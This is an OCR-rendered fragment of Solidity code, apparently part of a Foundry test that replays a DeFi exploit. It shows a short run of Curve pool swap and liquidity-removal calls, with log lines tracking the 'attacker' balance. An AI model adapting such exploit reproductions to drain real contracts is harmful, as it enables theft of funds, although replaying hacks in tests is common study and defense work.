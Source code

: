 │       10133949192393802606886848,                                                                                                                                                                                                                    │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap,3crv balance of attacker:",                                                                                                                                                                                                        │
│       crv3.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curve3pool.remove_liquidity_one_coin(9881355040729892287779421, 2, 0);                                                                                                                                                                           │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of attacker:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(usdt),                                                                                                                                                                                                                                 │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       10000000000000,                                                                                                                                                                                                                                │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │